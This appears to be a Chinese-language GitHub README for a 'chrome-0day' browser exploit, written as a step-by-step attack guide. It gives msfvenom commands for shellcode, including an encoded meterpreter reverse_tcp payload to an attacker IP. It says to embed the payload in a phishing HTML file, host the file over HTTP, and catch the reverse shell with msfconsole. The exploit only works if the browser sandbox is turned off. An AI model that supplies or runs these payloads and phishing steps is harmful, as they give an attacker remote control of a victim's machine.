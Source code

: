 # chrome-0day
### 生成shellcode代码

#### 弹出计算器的shellcode生成命令：

**64位操作系统：**

```
msfvenom -a x64 -p windows/x64/exec CMD="calc" EXITFUNC=thread -f num
```

**32位操作系统：**

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*（当然也可以换成其他系统命令，注意这里的架构要和浏览器所在操作系统的保持一致，一般为64位）*

### 制作html钓鱼文件


将生成的代码放入explo.html中shellcode[]中。

#### 方式一

浏览器关闭沙盒并打开网页

```
chrome.exe --no-sanbox /path/to/exploit.html
```
![image](https://user-images.githubusercontent.com/41281045/115233357-617a7800-a14a-11eb-9221-1d6b9d96acfe.png)


#### 方式二

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

http://127.0.0.1/path/to/exploit.html

### 利用msf反弹shell

#### msf反弹shell的shenllcode生成命令：

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.232 LPORT=5555 -e x86/shikata_ga_nai -b "\x00" -i 15 -f num -o payload.c```

**注意：LHOST要和自己本机ip保持一致，LPORT要和接下来监听的端口也保持一致**

将生成的payload.c文件中全部内容填入exploi.html中shellcode[]里。
#### msfconsole监听

执行命令：

```
msfconsole

msf6>use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.43.232

msf6 exploit(multi/handler) > set LPORT 5555

msf6 exploit(multi/handler) > run

```

然后记得关闭沙盒后打开使用Chrome浏览器访问exploit.html即可成功反弹shell。


### 关闭沙盒方法：

**命令方式：**

chrome.exe --no-sandbox

**手动方式：**

在快捷方式属性中目标后面添加" --no-sandbox",

![image](https://user-images.githubusercontent.com/41281045/115229381-90421f80-a145-11eb-97ad-04f84bcd1784.png)



















